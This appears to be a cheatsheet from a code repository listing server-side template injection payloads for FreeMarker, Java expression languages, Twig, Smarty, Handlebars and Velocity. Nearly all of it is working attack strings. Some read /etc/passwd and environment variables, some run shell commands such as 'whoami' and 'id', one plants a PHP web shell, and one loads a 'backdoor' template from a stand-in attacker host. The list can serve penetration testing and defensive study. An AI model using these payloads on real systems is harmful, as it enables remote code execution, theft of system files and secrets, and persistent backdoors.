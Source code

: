 
## Cheatsheet
---

```
-------------------------------------------------------------------
Polyglot:
${{<%[%'"}}%\
-------------------------------------------------------------------
FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
-------------------------------------------------------------------
Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
-------------------------------------------------------------------
Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
```